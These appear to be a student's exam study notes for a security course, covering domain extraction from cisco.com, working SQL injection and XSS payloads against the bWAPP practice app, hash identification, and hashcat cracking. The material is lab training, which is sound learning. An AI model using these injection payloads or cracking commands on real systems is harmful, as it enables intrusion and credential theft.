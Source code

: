 # C part questions(13 points)
Another parts [part A](part2.md) [part B](part3.md)
 ## Download index page of cisco.com, extract unique dns to which the page redirects you
 1. Download the index page 
 ```
 kali@kali:~# wget www.cisco.com
 ```
 2. Use this command to get domains
 ```
 kali@kali:~# grep "href=" index.html | cut -d "/" -f 3 | grep "\." | cut -d '"' -f 1 | sort -u
 ```
 3. Get ip addresses (maybe optional)
 ```
 kali@kali:~# for url in $(cat list.txt); do host $url; done
 ```
 
 ### Explanation
 1. Extract all the links with `grep "href=" index.html`
 2. Get mostly the links with "/" delimeter `cut -d "/" -f 3`
 3. Get only domains with `grep "\."`
 4. Clean up the above step with `cut -d '"' -f 1`
 5. Sort results with `sort -u`
 
 
 ## Show 3 working OWASP in bWAPP
 1. sqli_2.php
 ```
 localhost/bWAPP/sqli_2.php?movie=-1+union+select+1,login,password,secret,email,6,7+from+bWAPP.users+order%20by%204+desc+&action=go
 ```
 2. xss_stored_1.php
 ```
 <script>alert(1);</script>
 ```
 3. xss_stored_3.php
   1. Find `input` in code inspector and change **type** from `hidden` to `text`
   2. Enter any value to first `input` and enter your script to second `input`
   ```
   "><script>alert(1);</script>
   ```
 4. htmli_get.php
 ```
 <script>alert(document.cookie);</script>
 ```
 
 ## Hash: 1st indentify which hash, then break given hash
 ### How can I identify hash type
 
 - There is no concrete method for identifying a hash algorithm using the hash alone.

 - Some hashes have signatures which give a strong indication of which algorithm was used, such as “$1$” for md5crypt. Usually you can rely on this information; however, this method of identification is not bullet-proof! For example, consider an algorithm such as crypt(sha256(pass), “$1$”).

- For hashes which have no signature, it is virtually impossible to distinguish which algorithm was used. A string of 32 hex characters could be LM, NTLM, MD4, MD5, double MD5, triple md5, md5(sha512(pass)), so on and so forth. There is literally an infinite number of possibilities for what the algorithm may be!

- Tools which claim to be able to identify hashes simply use regular expressions to match the hash against common patterns. This method is extremely unreliable and often yields incorrect results. It is best to avoid using such tools.

- A much better way to identify the hash algorithm would be to understand the origin of the hashes (e.g. operating system, COTS application, web application, etc.) and make an educated guess at what the hash algorithm might be. Or better yet, use the source!

- For some example hashes see the [example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) wiki page.

### Breaking the hash
[hashcat wiki](https://hashcat.net/wiki/doku.php?id=hashcat)
```
hashcat -m [hash type] -a [attack mode] [hash itself] --force
```
- Example breaking md5 of `hello` with brute-force
```
hashcat -m 0 -a 3 5d41402abc4b2a76b9719d911017c592 --force
```
 ## msfconsole: setup everything and run exploit
 
